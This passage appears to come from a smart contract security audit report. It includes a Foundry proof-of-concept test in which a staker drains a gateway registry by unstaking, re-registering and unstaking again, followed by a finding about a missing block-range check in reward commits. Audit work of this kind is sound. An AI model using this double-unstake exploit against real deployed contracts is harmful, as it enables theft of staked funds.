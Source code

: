 Here is the coded POC for `GatewayRegistry.unstake.t.sol `

```solidity
  function test_StealStakes() public {
    uint256 amount = 100;
    address alice = address(0xA11cE);
    token.transfer(alice, amount);

    // stakers stake into their gateways
    gatewayRegistry.stake(peerId, amount, 200);
    vm.startPrank(alice);
    token.approve(address(gatewayRegistry), type(uint256).max);
    gatewayRegistry.register(bytes("alice"), "", address(0x6a7e));
    gatewayRegistry.stake(bytes("alice"), amount, 200);

    assertEq(token.balanceOf(address(gatewayRegistry)), 200);
    // exploit
    vm.roll(block.number + 300);
    gatewayRegistry.unstake(bytes("alice"), amount);
    gatewayRegistry.unregister(bytes("alice"));
    gatewayRegistry.register(bytes("alice"), "", address(0x6a7e));
    // unstake again
    gatewayRegistry.unstake(bytes("alice"), amount);
    assertEq(token.balanceOf(address(gatewayRegistry)), 0);
  }
```

## Recommendations

Delete `stakes` mapping when gateway is being unregistered.



# [H-01] Missing check on `toBlock` allows distributors to change past rewards

## Severity

**Impact**: High, Breaks sequential rewards, can reward same epoch multiple times

**Likelihood**: Medium, Requires malicious distributor/s

## Description

The function `commit` in `DistributedRewardDistribution.sol` is used to save a reward commit. However this function does not check if the `toBlock` is larger than the `fromBlock`. Thus distributors can set `toBlock` to 0 even.

```solidity
require(
    recipients.length == workerRewards.length,
    "Recipients and worker amounts length mismatch"
);
require(
    recipients.length == _stakerRewards.length,
    "Recipients and staker amounts length mismatch"
);

require(currentDistributor() == msg.sender, "Not a distributor");
//@audit missing check on block span
require(toBlock < block.number, "Future block");
```
